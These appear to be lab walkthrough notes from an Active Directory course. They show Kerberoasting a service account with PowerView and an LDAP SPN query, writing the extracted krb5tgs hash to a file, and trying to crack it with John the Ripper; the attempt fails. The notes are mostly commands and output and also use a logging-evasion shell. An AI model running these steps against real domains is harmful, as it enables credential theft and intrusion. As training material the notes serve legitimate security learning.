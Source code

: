 ```
[*] Searching path 'LDAP://tech-dc.tech.finance.corp/DC=tech,DC=finance,DC=corp' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=sqlserversync)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!msds-supportedencryptiontypes:1.2.840.113556.1.4.804:=24))'

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\krb5tgs_hashes.txt

[*] Roasted hashes written to : C:\AD\Tools\krb5tgs_hashes.txt📌
```

![studvm | studentuser](https://custom-icon-badges.demolab.com/badge/studvm-studentuser-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -SPN | % {Invoke-Kerberoast -Identity $_.samaccountname}`:
```
SamAccountName       : sqlserversync
DistinguishedName    : CN=sqlserver sync,CN=Users,DC=tech,DC=finance,DC=corp
ServicePrincipalName : MSSQLSvc/dbserver31.tech.finance.corp
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlserversync$tech.finance.corp$MSSQLSvc/dbserver31.tech.finance.corp*$E149345BAB64831EC028269E3F223675$8227DBD5D1EF86C63D7C612E2060BFC72EF3423713033D0BD5C9C7FD24423C892EB59E25B861E0E270726C87819C9CA6267962C1BD84793F8E72820D9C5017475A08

[...]
```

`Get-DomainUser -SPN | ForEach-Object { Invoke-Kerberoast -Identity $_.samaccountname } | Select-String '\$krb5tgs' | ForEach-Object { ($_ -replace '.*(\$krb5tgs.*)', '$1' -replace '}$', '').Trim() } | Out-File C:\AD\Tools\krb5tgs_hashes.txt`

`Get-NetUser -SPN | ForEach-Object {Invoke-Kerberoast -Identity $_.samaccountname} | Out-File C:\AD\Tools\krb5tgs_hashes.txt`

`type C:\AD\Tools\krb5tgs_hashes.txt`:
```
$krb5tgs$23$*sqlserversync$tech.finance.corp$MSSQLSvc/dbserver31.tech.finance.corp*$E149345BAB64831EC028269E3F223675$8227DBD5D1EF86C63D7C612E2060BFC72EF3423713033D0BD5C9C7FD24423C892EB59E25B861E0E270726C87819C9CA6267962C1BD84793F8E72820D9C5017475A0800EC037EE00D19A1158E293A9D4D0C813206CA107300BC47239BF0E70C5E8A462565DD59A2A8E12FCA7

[...]
```

![kali | attacker](https://custom-icon-badges.demolab.com/badge/kali-attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`john --format=krb5tgs --wordlist=./10k-worst-pass.txt ./krb5tgs_hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-03-11 08:42) 0g/s 1000Kp/s 1000Kc/s 1000KC/s fffff1..eyphed
Session completed. 
```
❌

